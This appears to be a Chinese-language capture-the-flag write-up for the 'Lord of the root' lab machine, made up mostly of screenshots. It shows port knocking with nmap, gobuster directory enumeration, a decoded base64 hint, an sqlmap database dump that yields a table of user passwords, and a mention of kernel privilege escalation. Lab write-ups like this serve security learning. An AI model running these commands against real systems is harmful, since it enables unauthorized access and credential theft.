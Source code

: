# Lord of the root

![image-20200618034235354](assets/Lord_of_the_root.assets/image-20200618034235354.png)

![image-20200618034302713](assets/Lord_of_the_root.assets/image-20200618034302713.png)

查看了漏洞利用文件，需要拥有凭证。

登录ssh看看

![image-20200618034641444](assets/Lord_of_the_root.assets/image-20200618034641444.png)

需要敲端口

敲端口相关阅读

> port-knock技巧
>
> https://www.endpoint.com/blog/2009/11/16/port-knocking-with-knockd
>
>  有一种绕过它的方法。通过在一组预先指定的关闭端口上生成连接尝试，打开端口的方法是打开防火墙上的端口。 一旦收到正确的连接尝试序列，防火墙将打开以前关闭的端口。
>
> https://www.exploit-db.com/exploits/28718
>
> https://blog.rapid7.com/2017/10/04/how-to-secure-ssh-server-using-port-knocking-on-ubuntu-linux/ 

```bash
nmap -Pn --host-timeout 100 --max-retries 0 -p 1 10.10.10.133
nmap -Pn --host-timeout 100 --max-retries 0 -p 2 10.10.10.133
nmap -Pn --host-timeout 100 --max-retries 0 -p 3 10.10.10.133
```



![image-20200618035109052](assets/Lord_of_the_root.assets/image-20200618035109052.png)

1337开了

![image-20200618035346345](assets/Lord_of_the_root.assets/image-20200618035346345.png)

![image-20200618035428938](assets/Lord_of_the_root.assets/image-20200618035428938.png)

![image-20200618035832036](assets/Lord_of_the_root.assets/image-20200618035832036.png)

又是开局一张图

![image-20200618035654402](assets/Lord_of_the_root.assets/image-20200618035654402.png)

这个本地ip可能需要留意一下

打目录

```bash
gobuster -u http://10.10.10.133:1337/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt dir -s '200,204,301,302,307,401,403' -k -e -l -x php,txt,apsx,asp,html -t 10
```

![image-20200618041448264](assets/Lord_of_the_root.assets/image-20200618041448264.png)

![image-20200618041514208](assets/Lord_of_the_root.assets/image-20200618041514208.png)

```bash
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
```

![image-20200618041740499](assets/Lord_of_the_root.assets/image-20200618041740499.png)

```bash
/978345210/index.php
```

![image-20200618041832820](assets/Lord_of_the_root.assets/image-20200618041832820.png)

抓包存储为login.txt

```bash
sqlmap -r login.txt --batch --dump
```

![image-20200618213029466](assets/Lord_of_the_root.assets/image-20200618213029466.png)

```bash
+------+----------+------------------+
| id   | username | password         |
+------+----------+------------------+
| 1    | frodo    | iwilltakethering |
| 2    | smeagol  | MyPreciousR00t   |
| 3    | aragorn  | AndMySword       |
| 4    | legolas  | AndMyBow         |
| 5    | gimli    | AndMyAxe         |
+------+----------+------------------+
```







![image-20200618210446764](assets/Lord_of_the_root.assets/image-20200618210446764.png)

其他常规枚举并没有发现什么有用的，尝试内核提权

![image-20200618212045518](assets/Lord_of_the_root.assets/image-20200618212045518.png)



![image-20200618213557693](assets/Lord_of_the_root.assets/image-20200618213557693.png)

![image-20200618213732516](assets/Lord_of_the_root.assets/image-20200618213732516.png)